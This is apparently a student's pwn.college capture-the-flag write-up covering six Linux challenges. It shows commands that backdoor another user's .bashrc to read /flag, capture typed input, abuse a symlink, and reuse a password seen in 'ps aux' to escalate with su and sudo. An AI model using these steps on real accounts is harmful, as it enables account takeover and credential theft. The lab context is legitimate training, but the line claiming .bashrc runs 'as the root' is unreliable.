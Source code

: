 # Bashrc Backdoor

### Edit .bashrc


**Flag:** `pwn.college{cv8W_UYxYaPgaeK7AQx8kfMvlPn.0VMzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and added `cat /flag` to it. Then, `/challenge/victim` gave me the flag.

## What I learnt
`.bashrc` is the file run on the startup of the shell/terminal.

## References
No references used.



<br><br><br><br><br>



# Sniffing Input

### Make a bash script to get input


**Flag:** `pwn.college{s7pxa6UX26yxmgYRrzPaHKP8uI_.0VNzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and wrote
```
read input

if [ $input == "flag_checker" ]
then
        echo "Type the flag"
        read flag
        cat $flag
fi
```
Then I ran `/challenge/victim` to get the flag.

## What I learnt
Input into the terminal can be read by any program with the correct permissions.

## References
No references used.



<br><br><br><br><br>




# Overshared Directories

### Rewrite a file in an opened up directory


**Flag:** `pwn.college{gK-rwkpnIfR2Hxd2J_wvqRMDtOi.0FM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /home/zardus/.bashrc` and then `nano /home/zardus/.bashrc` and wrote the previous code into the file. Then, on running `/challenge/victim` I got the flag.

## What I learnt
Files can be accessed if in an opened up directory.

## References
No references used.



<br><br><br><br><br>



# Tricky Linking

### Make a symlink to a file to get the flag


**Flag:** `pwn.college{M_u0IvXnGpPUjB3lWAA8TnlhiIJ.0VM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /tmp/collab/evil-commands.txt` and then `ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt` to create the symbolic link. Ran `nano /home/zardus/.bashrc` and then ran `/challenge/victim` twice to get the flag.

## What I learnt
Anything in .bashrc is ran as the root and is therefore allowed. So making a sym link to .bashrc is a great idea.

## References
No references used.



<br><br><br><br><br>



# Sniffing Process Arguments

### Read arguments passed to commands using `ps aux`

**Flag:** `pwn.college{0iGLkNiAjRiYgwfLnA3yXGo5biF.0FOzEzNxwSN2EzNzEzW}`

## Process
Ran `ps aux` to see arguments passed to the automation script. Ran `su zardus` and entered the password when prompted to login as zardus and then ran `sudo cat /flag` to get the flag.

## What I learnt
`ps aux` does not show the whole output in a minimized window.

## References
No references used.



<br><br><br><br<br>




# Snooping on Configuratiins

### Read .bashrc to find a key

**Flag:** `pwn.college{Y2JpXi2Spf9JBu3AuZ6nl8k_kRF.0lM0EzNxwSN2EzNzEzW}`

## Process
Ran `cat /home/zardus/.bashrc` to read the api key and then ran `flag_getter --key sk-2640723931` to get the flag,

## What I learnt
.bashrc is world-readable by default.

## References
No references used.
